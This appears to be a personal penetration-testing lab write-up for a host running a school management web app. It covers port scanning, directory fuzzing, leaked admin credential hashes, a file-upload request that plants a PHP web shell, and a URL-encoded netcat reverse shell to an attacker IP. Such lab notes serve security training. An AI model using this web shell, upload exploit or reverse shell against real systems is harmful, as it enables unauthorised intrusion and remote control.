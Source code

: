 ____


> [!info]
> IP=192.168.247.13

# Nmap
| PORT | STATE | SERVICE |
| ---- | ---- | ---- |
| 22/tcp | open | ssh |
| 80/tcp | open | http |

```python
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 98:4e:5d:e1:e6:97:29:6f:d9:e0:d4:82:a8:f6:4f:3f (RSA)
|   256 57:23:57:1f:fd:77:06:be:25:66:61:14:6d:ae:5e:98 (ECDSA)
|_  256 c7:9b:aa:d5:a6:33:35:91:34:1e:ef:cf:61:a8:30:1c (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Wisdom Elementary School
```

## 80 - http

### Fuzzing

```txt
/assets
/management
/vendor
```

/management
- gosfem community edition
![[Pasted image 20240204200002.png]]

```txt
/uploads
/assets
/js
/dist
/installation
```

```txt
http://192.168.247.13/management/installation/sql/database.sql
```


admin@admin.com:7110eda4d09e062aa5e4a390b0a572ac0d2c0220
udemy@udemy.com:7110eda4d09e062aa5e4a390b0a572ac0d2c0220

![[Pasted image 20240204200947.png]]

https://www.exploit-db.com/exploits/50587

```python
POST /management/admin/examQuestion/create HTTP/1.1
Host: 192.168.247.13
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------183813756938980137172117669544
Content-Length: 1343
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1

-----------------------------183813756938980137172117669544
Content-Disposition: form-data; name="name"

test4
-----------------------------183813756938980137172117669544
Content-Disposition: form-data; name="class_id"

2
-----------------------------183813756938980137172117669544
Content-Disposition: form-data; name="subject_id"

5
-----------------------------183813756938980137172117669544
Content-Disposition: form-data; name="timestamp"

2021-12-08
-----------------------------183813756938980137172117669544
Content-Disposition: form-data; name="teacher_id"

1
-----------------------------183813756938980137172117669544
Content-Disposition: form-data; name="file_type"

txt
-----------------------------183813756938980137172117669544
Content-Disposition: form-data; name="status"

1
-----------------------------183813756938980137172117669544
Content-Disposition: form-data; name="description"

123123
-----------------------------183813756938980137172117669544
Content-Disposition: form-data; name="_wysihtml5_mode"

1
-----------------------------183813756938980137172117669544
Content-Disposition: form-data; name="file_name"; filename="cmd.php"
Content-Type: application/octet-stream

<?php system($_GET["cmd"]); ?>
-----------------------------183813756938980137172117669544--
```



```txt
http://192.168.247.13/management/uploads/exam_question/cmd.php?cmd=whoami
```

```bash
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%20192.168.45.168%204444%20%3E%2Ftmp%2Ff
```







